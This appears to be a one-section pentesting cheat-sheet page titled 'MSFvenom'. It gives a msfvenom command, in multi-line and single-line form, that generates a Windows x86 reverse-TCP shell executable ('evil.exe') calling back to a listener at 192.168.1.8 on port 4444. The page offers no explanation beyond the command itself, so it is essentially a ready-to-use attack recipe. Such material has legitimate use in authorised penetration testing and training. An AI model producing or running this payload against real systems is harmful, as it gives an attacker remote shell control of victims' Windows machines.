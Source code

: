 ```yaml
---
layout: post
title: 'MSFvenom'
category: examples
permalink: 'examples/msfvenom'
---
```


### Table of Contents
* [Reverse Shell](#reverse-shell)

### Reverse Shell
```bash
msfvenom \
 --arch x86 \
 --platform windows \
 --payload windows/shell_reverse_tcp \
 LHOST=192.168.1.8 \
 LPORT=4444 \
 -f exe \
 -o evil.exe
```
```bash
msfvenom --arch x86 --platform windows --payload windows/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f exe -o evil.exe
```
